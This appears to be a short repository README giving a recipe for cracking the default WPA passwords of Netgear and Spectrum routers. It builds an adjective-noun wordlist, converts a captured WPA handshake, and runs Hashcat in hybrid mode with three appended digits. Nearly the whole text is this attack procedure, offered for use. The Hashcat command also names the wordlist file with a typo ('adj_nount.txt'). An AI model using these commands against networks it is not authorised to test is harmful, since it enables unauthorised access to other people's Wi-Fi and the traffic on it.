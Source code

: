 # NetgearXX / MyCharterWifiXX / MySpectrumWifiXX / SpectrumSetup-XX / SpectrumwifiXXXX

dicts/netgear-spectrum
combinator.exe adjective.txt noun.txt >> adj_noun.txt
cap2hccapx.exe WPAhandshake.pcap WPAhandshake.hccapx
Hashcat64.exe -m 2500 -a 6 WPAhandshake.hccapx adj_nount.txt ?d?d?d
